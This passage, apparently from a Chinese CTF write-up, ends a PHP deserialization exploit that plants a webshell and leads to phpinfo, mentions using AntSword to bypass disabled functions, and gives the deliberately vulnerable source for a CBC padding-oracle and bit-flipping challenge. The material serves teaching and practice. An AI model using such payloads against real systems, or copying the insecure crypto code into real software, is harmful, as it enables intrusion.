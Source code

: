 ```php
    public function __destruct()
    {
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}

echo urlencode(serialize(new HelloPhp));
```

![image.png](https://i.loli.net/2020/04/23/eLUEOZJtdAQopvg.png)
成了，我们看一下，访问shell1.php，发现一串md5，执行phpinfo后可以找到flag。

ps：其实这里我一开始是以为两个flag都是假的，就上了antsword bypass disable funcation，想弹个shell，结果发现是phpinfo里那个，，，那其实phpinfo(-1)就好了，，，，

## web🐕
考点
1. cbc padding oracle
2. cbc 字节翻转

``` php
<?php 
error_reporting(0);
include('config.php');   # $key,$flag
define("METHOD", "aes-128-cbc");  //定义加密方式
define("SECRET_KEY", $key);    //定义密钥
define("IV","6666666666666666");    //定义初始向量 16个6
define("BR",'<br>');
if(!isset($_GET['source']))header('location:./index.php?source=1');


#var_dump($GLOBALS);   //听说你想看这个？
function aes_encrypt($iv,$data)
{
    echo "--------encrypt---------".BR;
    echo 'IV:'.$iv.BR;
    return base64_encode(openssl_encrypt($data, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)).BR;
}
function aes_decrypt($iv,$data)
{
    return openssl_decrypt(base64_decode($data),METHOD,SECRET_KEY,OPENSSL_RAW_DATA,$iv) or die('False');
}
if($_GET['method']=='encrypt')
{
    $iv = IV;
    $data = $flag;    
    echo aes_encrypt($iv,$data);
} else if($_GET['method']=="decrypt")
{
    $iv = @$_POST['iv'];
    $data = @$_POST['data'];
    echo aes_decrypt($iv,$data);
}
echo "我摊牌了，就是懒得写前端".BR;

if($_GET['source']==1)highlight_file(__FILE__);
?>
```
